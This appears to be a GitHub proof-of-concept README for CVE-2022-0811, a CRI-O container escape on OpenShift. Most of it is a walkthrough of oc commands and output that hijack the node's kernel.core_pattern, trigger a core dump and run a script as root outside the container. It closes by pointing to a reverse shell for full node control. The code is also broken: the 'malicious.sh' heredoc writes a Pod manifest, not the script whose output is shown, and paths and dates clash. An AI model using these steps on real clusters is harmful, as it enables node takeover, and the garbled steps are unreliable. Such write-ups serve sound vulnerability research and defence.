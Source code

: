 # Proof of Concept: Leveraging CVE-2022-0811 to Compromise Kubernetes 
##### Many thanks to CrowdStrike cloud security researchers.  This quick quide was created with their findings and tailored for OpenShift specifically.

## Description
A flaw was found in CRI-O in the way it set kernel options for a pod. This issue allows anyone with rights to deploy a pod on a Kubernetes cluster that uses the CRI-O runtime to achieve a container escape and arbitrary code execution as root on the cluster node, where the malicious pod was deployed.

## Directly Affected Software
- CRI-O version 1.19+

## Indirectly Affected Software and Platforms
### While the vulnerability is in CRI-O, software and platforms that depend on it are also likely to be vulnerable, including:
- OpenShift 4.6+
- Oracle Container Engine for Kubernetes

## Remediation
- ### [Red Hat OpenShift - CVE-2022-0811](https://access.redhat.com/security/cve/cve-2022-0811)

## External References
- ### [GitHub cri-o](https://github.com/cri-o/cri-o/security/advisories/GHSA-6x2m-w449-qwx7)

# Overview
#### This proof of concept (POC) uses a malicious PodSpec to set the kernel.core_pattern kernel parameter, which specifies how the kernel should react to a core dump. In this case, we’ll tell it to execute a binary hosted in another pod. That binary will be run as root outside of any container. Finally, we’ll trigger a core dump causing the kernel to invoke the malicious executable.

# Startup Pod to Host Malicious Executable
`oc create -f ./malicious-script-host.yaml`

```
pod/malicious-script-host created
```
# Determine Root Path From Host Mount Namespace
#### This is the path to the root of the container from the perspective of the kernel.
` oc exec malicious-script-host -- mount | grep overlay | awk -F, '{ print $6 }'`
```
upperdir=/var/lib/containers/storage/overlay/3ef1281bce79865599f673b476957be73f994d17c15109d2b6a426711cf753e/diff
```
# Copy contents of malicious.sh
```
oc exec malicious-script-host -- /bin/bash -c "cat <<EOF > /tmp/malicious.sh
apiVersion: v1
kind: Pod
metadata:
  name: malicious-script-host
spec:
  containers:
  - name: ubi-8
    image: registry.access.redhat.com/ubi8/ubi:8.5-236
    command: ["tail", "-f", "/dev/null"]
EOF"
```
# Modify script permissions and verify
`oc exec malicious-script-host -- /bin/bash -c 'chmod 755 /tmp/malicious.sh && ls -al /tmp/malicious.sh'`
```
-rwxr-xr-x. 1 root root 197 Mar 17 19:22 /tmp/malicious.sh
```
# Use Second Pod to Point Core Pattern to Malicious Script
### NOTE: You must ensure this pod runs on the same node as the malicious script pod. 

`oc create -f ./sysctl-set.yaml`
```
pod/sysctl-set created
```
`oc get pods`
```
NAME                    READY   STATUS              RESTARTS   AGE
malicious-script-host   1/1     Running             0          14m
sysctl-set              0/1     ContainerCreating   0          68s
```
### Whether or not the sysctl-set pod starts, it will successfully update the node-wide core_pattern to point into our malicious-script-host container. 
`oc exec malicious-script-host -- /bin/bash -c "cat /proc/sys/kernel/core_pattern"`
```
|/var/lib/containers/storage/overlay/3ef1281bce79865599f673b476957be73f994d17c15109d2b6a426711cf753e6/diff/tmp/malicious.sh #'
```
# First enable core dumps:
`oc exec malicious-script-host -- /bin/bash -c "ulimit -c unlimited && ulimit -c"`
```
unlimited
```

#### Note for ubi8 image ps will need to be installed via
`oc exec malicious-script-host -- /bin/bash -c "yum install procps-ng -y && ps --version"`
```
Installed:
  procps-ng-3.3.15-6.el8.x86_64
ps from procps-ng 3.3.15
```
# Now trigger the core dump:
`oc exec -it malicious-script-host -- /bin/bash`
`tail -f /dev/null &`
`ps`
```
PID   USER     TIME  COMMAND
    1 root      0:00 tail -f /dev/null
   34 root      0:00 /bin/bash
   42 root      0:00 tail -f /dev/null
   43 root      0:00 ps
```
`kill -SIGSEGV 42`
```/ #
[1]+  Segmentation fault (core dumped) tail -f /dev/null
```
# Verify Malicious Script Ran :boom: :beer:

`oc exec malicious-script-host -- /bin/bash -c 'cat /output'`
```
Wed Feb 23 14:20:07 UTC 2022
root
ocp-cluster
```
##### This script was invoked by the kernel outside of the container namespace with root privileges. A real attacker could, as an example, run a reverse shell and gain full control of the node.
